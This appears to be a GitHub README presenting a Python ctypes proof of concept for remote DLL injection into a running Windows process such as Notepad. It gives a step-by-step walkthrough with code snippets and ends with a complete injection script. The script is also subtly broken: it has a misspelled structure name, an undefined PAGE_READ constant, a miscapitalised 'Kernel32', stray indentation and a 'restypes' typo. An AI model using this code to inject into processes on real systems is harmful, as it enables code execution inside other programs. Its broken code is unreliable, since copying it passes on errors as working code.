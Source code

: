 # Remote DLL Injection
## Overview
This POC demonstrates a technique known as remote DLL injection. The goal is to force a target process (for example, Notepad) to load an external DLL (Dynamic Link Library). The process involves three main steps:

  1. Allocating Memory in the Remote Process: Reserve a block of memory in the target process’s address space.
  2. Writing the DLL Path: Write the path (as a byte string) of the DLL into the allocated memory.
  3. Forcing the DLL to Load: Use the Windows API function LoadLibraryA—located via GetProcAddress on kernel32.dll—by creating a remote thread that calls it, passing the address of the DLL path in memory.

This technique is commonly used for injecting code into a process for either legitimate purposes (such as extending the functionality of a running application) or by malware for nefarious reasons.

## Detailed Code Walkthrough

1. Importing Modules and Defining API Functions
    1. ctypes and wintypes:
       The code imports the ctypes module and its wintypes submodule. This allows the script to interact directly with Windows API functions. The API calls are performed by calling functions in kernel32.dll, a core Windows DLL.

    2. Function Prototypes:
       The POC defines the argument types (argtypes) and return types (restype) for the following functions:
         1. OpenProcess: Opens an existing process given its process ID (PID) with specific access rights.
         2. VirtualAllocEx: Allocates a block of memory within the address space of the target process.
         3. WriteProcessMemory: Writes data (the DLL path) into the allocated memory in the remote process.
         4. GetModuleHandleA: Retrieves a handle to a loaded module (here, kernel32.dll).
         5. GetProcAddress: Finds the address of an exported function (in this case, LoadLibraryA) within a module.
         6. CreateRemoteThread: Creates a new thread in the remote process that will call the specified function—in our case, to load the DLL.

    3. Defining Structures:
       The code also defines the _SECURITY_ATTRIBUTES structure. Although this structure isn’t used in every detail, it is necessary when creating a remote thread to specify attributes like whether handles are inherited by child processes.

2. Preparing the Injection Payload
   1. DLL Path String:
   A byte string variable named dll holds the path to the compiled DLL file that you intend to inject. This must be a valid
   path that the target process can access.

   2. Process Identification:
   The variable pid is set to the target process’s ID (for example, Notepad’s PID). This value is used to open the process and
   manipulate its memory.

3. Opening the Target Process
   1. Using OpenProcess:
   The OpenProcess function is called with the PROCESS_ALL_ACCESS flag, which grants the maximum level of access required for
   injection.
   If OpenProcess fails (returns a NULL handle), an error is raised. Successful retrieval of a valid handle is critical for subsequent operations.
###
   ```bash
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
if not handle:
    raise WinError()
print("Handle obtained ⇒", hex(handle))
   ```
4. Allocating Memory in the Remote Process
   1. VirtualAllocEx Call:
   VirtualAllocEx is used to reserve a block of memory in the target process’s address space.
   The size of the memory allocated is determined by the length of the DLL path string. The allocation is done using the
   flags MEM_COMMIT | MEM_RESERVE, and the memory is initially marked as PAGE_READWRITE so that it can be modified.
## Code
   ```bash
remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
if not remote_memory:
    raise WinError()
print("Memory allocated ⇒", hex(remote_memory))
   ```
5. Writing the DLL Path into Remote Memory
   1. WriteProcessMemory Call:
   Once memory is allocated, the DLL path is written into the remote process using WriteProcessMemory.
   This step places the path (as a string) into the process’s memory space so that it can later be used by the LoadLibraryA
   function.
## Code
   ```bash
write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)
if not write:
    raise WinError()
print("Bytes written ⇒", dll)
   ```
6. Locating the LoadLibraryA Function
   1. Retrieving the Address of LoadLibraryA:
   The function GetModuleHandleA is used to get a handle for kernel32.dll—a critical module that contains the LoadLibraryA
   function.
   Then, GetProcAddress retrieves the address of LoadLibraryA within that module.
   This address will be the entry point for loading the DLL into the remote process.
## Code
   ```bash
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
print("LoadLibrary address ⇒", hex(load_lib))
   ```
7. Creating a Remote Thread to Load the DLL
   1. Executing the DLL Injection:
   With the address of LoadLibraryA and the memory location holding the DLL path, CreateRemoteThread is invoked.
   This function creates a new thread in the target process that begins execution at the LoadLibraryA function, with the
   argument being the address of the DLL path in remote memory.
   When the thread runs, LoadLibraryA loads the DLL, thus completing the injection.
## Code
   ```bash
rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```

## Code ~ Remote DLL Injection
## Code
   ```bash
from ctypes import *
from ctypes import wintypes

kernel32 = windll.kernel32
LPCTSTR = c_char_p
SIZE_T = c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (wintypes.DWORD, wintypes.BOOL, wintypes.DWORD)
OpenProcess.restype = wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = Kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (wintypes.HANDLE, LPCTSTR)
GetProcAddress.restypes = wintypes.LPVOID

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
							('lpSecurityDescriptor', wintypes.LPVOID),
							('bInheritHandle', wintypes.BOOL),]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECUIRTY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

dll = b"<path to the compiled dll file>"

pid = 2160 #process id of a process such as Notepad

handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

if not handle:
	raise WinError()
	
print("Handle obtained => {0:X}".format(handle))

remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READ)

	if not remote_memory:
		raise WinError()

print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)

if not write:
	raise WinError()

print("Bytes written => {}".format(dll))

load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")

print("LoadLibrary address => ", hex(load_lib))

rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```
